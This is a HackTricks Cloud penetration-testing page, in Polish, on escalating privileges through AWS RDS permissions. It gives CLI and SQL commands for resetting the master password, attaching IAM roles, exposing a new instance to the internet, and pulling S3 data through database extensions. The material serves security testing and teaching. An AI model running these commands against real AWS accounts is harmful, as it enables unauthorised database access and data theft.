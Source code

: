 # AWS - RDS Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## RDS - Relacyjna Usługa Baz Danych

Aby uzyskać więcej informacji na temat RDS, sprawdź:

{% content-ref url="../aws-services/aws-relational-database-rds-enum.md" %}
[aws-relational-database-rds-enum.md](../aws-services/aws-relational-database-rds-enum.md)
{% endcontent-ref %}

### `rds:ModifyDBInstance`

Dzięki temu uprawnieniu atakujący może **zmienić hasło użytkownika głównego** oraz logowanie w bazie danych:
```bash
# Get the DB username, db name and address
aws rds describe-db-instances

# Modify the password and wait a couple of minutes
aws rds modify-db-instance \
--db-instance-identifier <db-id> \
--master-user-password 'Llaody2f6.123' \
--apply-immediately

# In case of postgres
psql postgresql://<username>:<pass>@<rds-dns>:5432/<db-name>
```
{% hint style="warning" %}
Będziesz musiał **skontaktować się z bazą danych** (zwykle są one dostępne tylko z wewnętrznych sieci).
{% endhint %}

**Potencjalny wpływ:** Znalezienie wrażliwych informacji w bazach danych.

### rds-db:connect

Zgodnie z [**dokumentacją**](https://docs.aws.amazon.com/AmazonRDS/latest/UserGuide/UsingWithRDS.IAMDBAuth.IAMPolicy.html) użytkownik z tym uprawnieniem mógłby połączyć się z instancją DB.

### Nadużycie uprawnień roli IAM RDS

#### Postgresql (Aurora)

{% hint style="success" %}
Jeśli uruchamiając **`SELECT datname FROM pg_database;`** znajdziesz bazę danych o nazwie **`rdsadmin`**, wiesz, że jesteś w **bazie danych AWS postgresql**.
{% endhint %}

Najpierw możesz sprawdzić, czy ta baza danych była używana do uzyskania dostępu do jakiejkolwiek innej usługi AWS. Możesz to sprawdzić, patrząc na zainstalowane rozszerzenia:
```sql
SELECT * FROM pg_extension;
```
Jeśli znajdziesz coś takiego jak **`aws_s3`**, możesz założyć, że ta baza danych ma **jakiegoś rodzaju dostęp do S3** (są inne rozszerzenia, takie jak **`aws_ml`** i **`aws_lambda`**).

Również, jeśli masz uprawnienia do uruchomienia **`aws rds describe-db-clusters`**, możesz zobaczyć, czy **klaster ma przypisaną jakąkolwiek rolę IAM** w polu **`AssociatedRoles`**. Jeśli tak, możesz założyć, że baza danych była **przygotowana do uzyskania dostępu do innych usług AWS**. Na podstawie **nazwa roli** (lub jeśli możesz uzyskać **uprawnienia** roli) możesz **zgadnąć**, jaki dodatkowy dostęp ma baza danych.

Teraz, aby **przeczytać plik w obrębie bucketu**, musisz znać pełną ścieżkę. Możesz to przeczytać za pomocą:
```sql
// Create table
CREATE TABLE ttemp (col TEXT);

// Create s3 uri
SELECT aws_commons.create_s3_uri(
'test1234567890678', // Name of the bucket
'data.csv',          // Name of the file
'eu-west-1'          //region of the bucket
) AS s3_uri \gset

// Load file contents in table
SELECT aws_s3.table_import_from_s3('ttemp', '', '(format text)',:'s3_uri');

// Get info
SELECT * from ttemp;

// Delete table
DROP TABLE ttemp;
```
Jeśli miałeś **surowe dane uwierzytelniające AWS**, mógłbyś je również wykorzystać do uzyskania dostępu do danych S3 za pomocą:
```sql
SELECT aws_s3.table_import_from_s3(
't', '', '(format csv)',
:'s3_uri',
aws_commons.create_aws_credentials('sample_access_key', 'sample_secret_key', '')
);
```
{% hint style="info" %}
Postgresql **nie musi zmieniać żadnej zmiennej grupy parametrów**, aby uzyskać dostęp do S3.
{% endhint %}

#### Mysql (Aurora)

{% hint style="success" %}
Wewnątrz mysql, jeśli uruchomisz zapytanie **`SELECT User, Host FROM mysql.user;`** i jest użytkownik o nazwie **`rdsadmin`**, możesz założyć, że jesteś w **AWS RDS mysql db**.
{% endhint %}

Wewnątrz mysql uruchom **`show variables;`** i jeśli zmienne takie jak **`aws_default_s3_role`**, **`aurora_load_from_s3_role`**, **`aurora_select_into_s3_role`** mają wartości, możesz założyć, że baza danych jest przygotowana do uzyskania dostępu do danych S3.

Ponadto, jeśli masz uprawnienia do uruchomienia **`aws rds describe-db-clusters`**, możesz sprawdzić, czy klaster ma jakąkolwiek **powiązaną rolę**, co zazwyczaj oznacza dostęp do usług AWS).

Teraz, aby **przeczytać plik w obrębie bucketu**, musisz znać pełną ścieżkę. Możesz go przeczytać za pomocą:
```sql
CREATE TABLE ttemp (col TEXT);
LOAD DATA FROM S3 's3://mybucket/data.txt' INTO TABLE ttemp(col);
SELECT * FROM ttemp;
DROP TABLE ttemp;
```
### `rds:AddRoleToDBCluster`, `iam:PassRole`

Napastnik z uprawnieniami `rds:AddRoleToDBCluster` i `iam:PassRole` może **dodać określoną rolę do istniejącego instancji RDS**. Może to pozwolić napastnikowi na **dostęp do wrażliwych danych** lub modyfikację danych w obrębie instancji.
```bash
aws add-role-to-db-cluster --db-cluster-identifier <value> --role-arn <value>
```
**Potencjalny wpływ**: Dostęp do wrażliwych danych lub nieautoryzowane modyfikacje danych w instancji RDS.\
Należy zauważyć, że niektóre bazy danych wymagają dodatkowych konfiguracji, takich jak Mysql, który musi określić ARN roli w grupach parametrów.

### `rds:CreateDBInstance`

Tylko z tym uprawnieniem atakujący mógłby stworzyć **nową instancję w istniejącym klastrze**, która już istnieje i ma przypisaną **rolę IAM**. Nie będzie mógł zmienić hasła głównego użytkownika, ale może być w stanie wystawić nową instancję bazy danych do internetu:
```bash
aws --region eu-west-1 --profile none-priv rds create-db-instance \
--db-instance-identifier mydbinstance2 \
--db-instance-class db.t3.medium \
--engine aurora-postgresql \
--db-cluster-identifier database-1 \
--db-security-groups "string" \
--publicly-accessible
```
### `rds:CreateDBInstance`, `iam:PassRole`

{% hint style="info" %}
TODO: Test
{% endhint %}

Atakujący z uprawnieniami `rds:CreateDBInstance` i `iam:PassRole` może **utworzyć nową instancję RDS z przypisaną określoną rolą**. Atakujący może następnie potencjalnie **uzyskać dostęp do wrażliwych danych** lub zmodyfikować dane w obrębie instancji.

{% hint style="warning" %}
Niektóre wymagania dotyczące roli/profilu instancji do przypisania (z [**tutaj**](https://docs.aws.amazon.com/cli/latest/reference/rds/create-db-instance.html)):

* Profil musi istnieć w Twoim koncie.
* Profil musi mieć rolę IAM, którą Amazon EC2 ma uprawnienia do przyjęcia.
* Nazwa profilu instancji i powiązana nazwa roli IAM muszą zaczynać się od prefiksu `AWSRDSCustom`.
{% endhint %}

{% code overflow="wrap" %}
```bash
aws rds create-db-instance --db-instance-identifier malicious-instance --db-instance-class db.t2.micro --engine mysql --allocated-storage 20 --master-username admin --master-user-password mypassword --db-name mydatabase --vapc-security-group-ids sg-12345678 --db-subnet-group-name mydbsubnetgroup --enable-iam-database-authentication --custom-iam-instance-profile arn:aws:iam::123456789012:role/MyRDSEnabledRole
```
{% endcode %}

**Potencjalny wpływ**: Dostęp do wrażliwych danych lub nieautoryzowane modyfikacje danych w instancji RDS.

### `rds:AddRoleToDBInstance`, `iam:PassRole`

Napastnik z uprawnieniami `rds:AddRoleToDBInstance` i `iam:PassRole` może **dodać określoną rolę do istniejącej instancji RDS**. Może to umożliwić napastnikowi **dostęp do wrażliwych danych** lub modyfikację danych w instancji.

{% hint style="warning" %}
Instancja DB musi być poza klastrem, aby to
{% endhint %}

{% code overflow="wrap" %}
```bash
aws rds add-role-to-db-instance --db-instance-identifier target-instance --role-arn arn:aws:iam::123456789012:role/MyRDSEnabledRole --feature-name <feat-name>
```
{% endcode %}

**Potencjalny wpływ**: Dostęp do wrażliwych danych lub nieautoryzowane modyfikacje danych w instancji RDS.

{% hint style="success" %}
Ucz się i ćwicz Hacking AWS:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Ucz się i ćwicz Hacking GCP: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Wsparcie HackTricks</summary>

* Sprawdź [**plany subskrypcyjne**](https://github.com/sponsors/carlospolop)!
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegramowej**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Dziel się trikami hackingowymi, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repozytoriów github.

</details>
{% endhint %}
